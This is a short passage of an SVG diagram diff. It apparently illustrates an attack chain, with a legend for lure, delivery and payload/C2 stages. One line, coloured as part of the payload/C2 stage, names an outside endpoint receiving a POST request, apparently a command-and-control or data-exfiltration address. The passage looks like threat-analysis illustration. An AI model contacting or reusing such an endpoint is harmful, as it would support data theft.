+     <tspan fill="#A32D2D">├─ </tspan>POST https://marsalek.cy/logging/errors</text>
+   <circle cx="55" cy="830" r="5" fill="#185FA5" />
+   <text x="65" y="830" dominant-baseline="central" font-size="12" fill="#444441">Lure</text>
+   <circle cx="123" cy="830" r="5" fill="#993C1D" />
+   <text x="133" y="830" dominant-baseline="central" font-size="12" fill="#444441">Delivery</text>
+   <circle cx="219" cy="830" r="5" fill="#A32D2D" />
+   <text x="229" y="830" dominant-baseline="central" font-size="12" fill="#444441">Payload / C2</text>
</svg>
